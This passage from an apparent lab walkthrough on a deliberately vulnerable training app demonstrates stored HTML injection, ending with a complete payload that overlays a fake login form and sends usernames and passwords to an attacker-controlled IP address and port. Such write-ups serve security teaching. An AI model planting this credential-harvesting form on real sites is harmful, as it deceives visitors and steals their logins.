 Now, we’ll be redirected to the web page which is vulnerable from an stored HTML Injection vulnerability which allows the user to submit his entry in the given field as shown in the figure-3.</br>

`figure-3`
![figure-3](https://user-images.githubusercontent.com/83446765/157544250-475ce5b0-283c-4303-a4aa-ecff0d6522e1.png)			
			
Here we intered a normal user entry through user : bee  as “hello” in the given field, in order to confirm that the input data has successfully stored  in the webserver's database as shown in the figure-4 and figure-5.</br>

`figure-4`
![figure-4](https://user-images.githubusercontent.com/83446765/157544321-c183f6e3-3e2d-4c35-83e0-302512629315.png)			
			
`figure-5`
![figure-5](https://user-images.githubusercontent.com/83446765/157544291-9915e34d-006e-4ecf-8d67-533ff63159f7.png)			
			
Here in this we insert a html tag after that in this field we see that here HTML tags are being easily inserted and stored as shown in the figure-6 and figure-7.</br>

`figure-6`
![figure-6](https://user-images.githubusercontent.com/83446765/157544281-7d836202-a05b-41b4-b01f-62d0d5b131e2.png)			
			
`figure-7`
![figure-7](https://user-images.githubusercontent.com/83446765/157544308-0473c24f-239e-4aa0-ba49-21594676e4e4.png)			
			
			
			
Now, inject a malicious code that will create a fake user login form on the targeted web page and it will forward the form details to our IP that is `192.168.43.153`. </br>
			
Enter the following HTML code inside the given field in order to set up the HTML attack. as shown in figure-8.</br>

		<div style=" width: 1900px; height: 1300px; background-color:white; ">
		Please login with valid credenitals:<br>
		<form name="login" action="http://192.168.43.153:8181/login.html">
		<table>
		<tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td><td><input type="text" name="password"/></td></tr>
		<tr><td><input type="submit" value="Login"/></td></tr>
		</table>
		</form>
		</div>
			
`figure-8`
![figure-8](https://user-images.githubusercontent.com/83446765/157544369-45316405-aa54-4a62-9e5a-f4241eb9e028.png)			
			
			
			

			
When we clicked on the “Submit” button, a new login form  appeared on the webpage. This login form is stored now into the application’s web server, which gets rendered every time whenever the victim visits this malicious login page, this web page always have this form which looks official to him as shown in the figure-9.</br>
